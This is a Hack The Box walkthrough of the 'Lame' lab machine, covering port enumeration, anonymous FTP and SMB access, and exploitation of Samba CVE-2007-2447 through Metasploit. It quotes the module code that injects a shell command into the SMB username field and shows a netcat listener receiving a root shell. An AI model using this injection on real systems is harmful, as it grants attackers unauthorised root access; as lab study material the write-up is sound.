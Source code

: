 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Lame
tags: []
---
```

**Start 22:16 27-07-2024** 

---

## Nmap recon
First of all we start with an `nmap` scan `nmap -sC -sV -Pn 10.10.10.3

![](../../../assets/7e26b6e16803fe97e118cefbbe9f71a6.png)

Here we see a few open `ports` namely `21 / 22 / 139 / 445`.

### 21/TCP - FTP 

Since `21 - ftp` allows `Anonymous login` we should try that first. After trying `ftp 10.10.10.3` I found the directory to be empty.

After looking up `vsftpd 2.3.4` using `searchsploit` we found some backdoor command execution exploits.

![](../../../assets/52668cd18039b35ae664ec6dca5e9d45.png)

### 445/TCP - Samba

Using `smbmap -H 10.10.10.3` we can enumerate the SMB server.

![](../../../assets/43f81db1f5d26d159af0ee375eeb747e.png)

Since anonymous login is allowed we can connect to the `SMB` server using the following command: `smbclient -N //10.10.10.3/tmp` 
Afterwards we run `ls` to list all the files in the current directory. We get the following:

![](../../../assets/39eda28281cbf36a821db9b73eee317d.png)

None of these files seem interesting to us.

After looking up the version on `searchsploit` the following exploits pop up:

![](../../../assets/76226021c0da9822f03e1d4ba648143b.png)

From all these this one seems the most prevalent for us:

```bash
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
```

This exploit is also known as `CVE 2007-2447` as found on `ExploitDB`.  Perhaps this will come of use to us later on.

First let's try out the exploit we found for `port 21`.

### VSFTPD Exploit

To use this exploit we'll use `msfconsole` and use the path previously found using `searchsploit`.
Using `search vsftpd` we found the path to the exploit which we can then `use`.

![](../../../assets/dec5f39c476c29f33e714a0ba2247376.png)

![](../../../assets/e940b4015bdc12115a7f2220b1615115.png)

As always we type in `options` to find out what required settings we have to set up before firing up the exploit.

![](../../../assets/461d58a3388d95b6cc2bb644f69395b6.png)

We notice that we need to specify `rhosts` which would be `10.10.10.3` in this case, thus we just specify it using `set rhosts 10.10.10.3`.

Since the payload has already been configured by default we can just `run` the exploit after configuring the `rhosts`.

Unfortunately enough, the exploit completes but no session get's created. 

![](../../../assets/be7fe461cdbb6cbf679a710aaeb069b2.png)

This means that we'll have to try the `Samba` exploit we found earlier.

### Samba Exploit

For this we will have to utilize the [CVE 2007-2447](https://www.exploit-db.com/exploits/16320) as found previously in our `searchsploit`.
Reading through this `CVE` we find the following part which is interesting for us:

```rb
def exploit

		connect

		# lol?
		username = "/=`nohup " + payload.encoded + "`"
		begin
			simple.client.negotiate(false)
			simple.client.session_setup_ntlmv1(username, rand_text(16),
			datastore['SMBDomain'], false)
		rescue ::Timeout::Error, XCEPT::LoginError
			# nothing, it either worked or it didn't ;)
		end

		handler
	end
```

In this part of the `CVE` we see that we need to use the defined `username` credentials to log in.
In order for this to work we need to start a `nc -lvnp 443` listener. 
When prompted for a password I just pressed `enter` and the connection succeeded.

![](../../../assets/d1b253c54919172fe658b7ed575d61c6.png)

![](../../../assets/e4237545d9ca8b0814e99a4e9887cf1a.png)

We got a `root` shell this way, thus no need to escalate privileges :)

## Flags

As always we use `find` to quickly find the flags

![](../../../assets/2f38fcef5784108d5b3f9e5bc4ff3eda.png)

![](../../../assets/719208df0f5ffeb8e5f82fa6821654f4.png)

![](../../../assets/619407244de02a4f565bd6cfdca6995e.png)

---

**Finished 23:32 27-07-2024**


[^Links]: [[Hack The Box]]
